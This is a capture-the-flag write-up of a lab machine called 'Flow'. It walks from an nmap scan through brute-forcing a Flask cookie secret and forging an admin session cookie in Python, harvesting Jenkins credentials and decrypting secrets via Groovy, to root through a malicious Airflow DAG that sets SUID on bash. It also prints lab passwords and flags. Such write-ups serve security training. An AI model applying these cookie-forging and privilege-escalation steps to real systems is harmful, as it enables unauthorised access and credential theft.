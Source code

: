 # Flow
```
# nmap -sCV -p- flow.htb
Nmap scan report for flow.htb (10.129.172.173)
Host is up (0.082s latency).
Scanned at 2021-07-24 02:37:27 CEST for 341s
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
| http-title: Airflow
|_Requested resource was http://flow.htb:8000/login/?next=http%3A%2F%2Fflow.htb%3A8000%2Fhome
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 8080 the web server is hosting a Jenkins. Unfortunately default credentials doesn't work.

On port an Airflow application is also prompting us for credentials.

![Airflow login](../img/login_airflow.png "Airflow login")

When trying to connect on this interface we noticed the web server assigned us a flask cookie. We tried to bruteforce the cookie secret key using [flask-unsign](https://pypi.org/project/flask-unsign/) and it was successful:

```
$ flask-unsign -c '.eJx9kEFPwzAMhf9KlXO1toOOphLijAQSJy5oqtzUSSO8pEo8yjTx3zEgcYKdEr9879nOWQ2WIM-YVf9yVgXLoVZIwQenSnUf3oD8VFB0PmyKJ0LIWHA6FeBAFLX_2JcSkTDPqrdAGaVcMB0gYJAwTkdRTE524PiKQfXKbnUzoumaG41oNWzbdjd2ur3qtFwb3TTmGo3ZSfsJ3JAZ-JgH64kxiR2I5IWiAUIpJbJUCzgcZp85ptPXAjPz0leVpbhuZh77rq7rSnaoSJjq7ht_iO4xTkjPHtfbWkL-NL2bePhx_UcsMdJlwsQQ0LCP4TL3O6D86id-9oYb.YP87aA.XhCS-DqQkiEOiZKSHxJVb0RTYvY' -w all.txt -u
[*] Session decodes to: {'_flashes': [('warning', 'Invalid login. Please try again.')], '_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'dag_status_filter': 'all', 'locale': 'en', 'page_history': ['http://flow.htb:8000/log/list/?page_LogModelView=0', 'http://flow.htb:8000/xcom/list/', 'http://flow.htb:8000/pool/list/', 'http://flow.htb:8000/connection/list/', 'http://flow.htb:8000/log/list/']}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (9600): (H`_key=2499d4a4f8ad842fb5ed41
[+] Found secret key after 36096 attempt
'temporary_key'
```
When analyzing the front page source code we can see the Flask-AppBuilder is used:
```
<!-- Adapted from: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/flask_appbuilder/templates/appbuilder/flash.html -->
<link rel="stylesheet" type="text/css" href="/static/css/flash.css">

<!-- Split messages into two arrays: one for regular alerts, another for DAG import errors -->
```
By digging in this repository we were looking for the user session management. requirements.txt file shows the flask-login library: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/requirements.txt#L17.

By overlooking at flask-login cookie's attributes we saw the field `user_id` was used to identify users: https://github.com/maxcountryman/flask-login/blob/0.4.1/flask_login/login_manager.py#L311.

We forged our own flask cookie we the following python code:

```python
#!/usr/bin/env python3

from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask_unsign.helpers import LegacyTimestampSigner
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

def sign(value: dict, secret: str, legacy: bool = False, salt: str = "cookie-session"):
    return get_serializer(secret, legacy, salt).dumps(value)

def get_serializer(secret: str, legacy: bool, salt: str):
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})


payload = {'_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'locale': 'en','user_id':"1"}
cookie = sign(payload, "temporary_key")
print(cookie)
```

```bash
$ ./signer2.py 
.eJwNi8EOwiAQBf9lz1y2SmX5GULXR2pEahZ6avx3uc1MMhelYug7xZJrh6P0hX1yQxsUh52zaLeSxvFGo0hlEd6ggR8CFMmL9-sWxN-CTGRh1jtUV3JUD80V85mjo7PD0us5len3B_hYJJA.YP88ww.mqaoAXLqq4po1q0p66xPG8NFg8I
```

By changing the cookie in our browser, we sucessfully obtain an admin session. While crawling the application we were looking for juicy information such as password. The Jenkins password was indeed in the application. It was in the Admin/Variables menu. Cleartext passwords can be obtained by exporting them:


![Getting credentials](../img/get_password.png "Getting credentials")

The exported file contains the credentials:
```
{
    "JENKINS_BUILD_PASSWORD": "sVLfGQzHyW8WM22"
}
```

By checking the logs in Browse/Logs menu in Airflow, we can obtained a list of user (amelia or root).

The credentials root:sVLfGQzHyW8WM22 were working on the Jenkins login portal port 8080.

Running a groovy script on Jenkins, we found amelia credentials.

![Amelia password](../img/amelia_password.png "Amelia password")

Another groovy script can retrieve amelia credentials. These credentials can be used on SSH to get user flag.
```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAg+HUDOG0OqnfR1ExuHUvv0Qb/0QDNMPmncSVOHYZFSJHSNn/RFDjy9MU6JdEoxgy0}"))
v]C:ZZ6*pmv6jgBJ

$ ssh amelia@flow.htb
amelia@flow:~$ cat user.txt
HTB{w4tch_0ut_th0s3_0ld_v3rs10ns}
```

The `note.txt` in the user folder suggest to drop dags files in `/opt/dags` and they will be proceed. We also can run `sudo airflow` which will process the dags files. We noticed we could hijack a python library, here `os`.
We just need to submit a dag file with a valid syntax, this can be found on the following [tutorial](https://www.invivoo.com/en/creating-your-first-apache-airflow-dag/).


```
amelia@flow:/opt/dags$ cat payload.py
import os
os.system("chmod +s /bin/bash")

from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from airflow.utils.dates import days_ago


default_args = {
    'owner': 'airflow',
    'start_date': days_ago(5),
    'email': ['airflow@my_first_dag.com'],
    'email_on_failure': False,
    'email_on_retry': False,
    'retries': 1,
    'retry_delay': timedelta(minutes=5),
}

my_first_dag = DAG(
    'first_dag',
    default_args=default_args,
    description='Our first DAG',
    schedule_interval=timedelta(days=1),
)


amelia@flow:/opt/dags$ sudo airflow backfill payload -s 2020-03-01 -e 2022-03-05
[2021-07-26 23:17:03,177] {__init__.py:50} INFO - Using executor SequentialExecutor
[2021-07-26 23:17:03,177] {dagbag.py:417} INFO - Filling up the DagBag from /root/airflow/dags
[2021-07-26 23:17:03,184] {dagbag.py:259} ERROR - Failed to import: /root/airflow/dags/payload.py
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/airflow/models/dagbag.py", line 256, in process_file
    m = imp.load_source(mod_name, filepath)
  File "/usr/lib/python3.8/imp.py", line 171, in load_source
    module = _load(spec)
  File "<frozen importlib._bootstrap>", line 702, in _load
  File "<frozen importlib._bootstrap>", line 671, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 783, in exec_module
  File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
  File "/root/airflow/dags/payload.py", line 16, in <module>
    'retry_delay': timedelta(minutes=5),
NameError: name 'timedelta' is not defined
Traceback (most recent call last):
  File "/usr/local/bin/airflow", line 37, in <module>
    args.func(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/utils/cli.py", line 80, in wrapper
    return f(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 188, in backfill
    dag = dag or get_dag(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 163, in get_dag
    raise AirflowException(
airflow.exceptions.AirflowException: dag_id could not be found: payload. Either the dag did not exist or it failed to parse.

amelia@flow:/opt/dags$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
amelia@flow:/opt/dags$ bash -p
bash-5.0# cat /root/root.txt
HTB{d0nt_run_4rb1tr4ry_d4gs}
```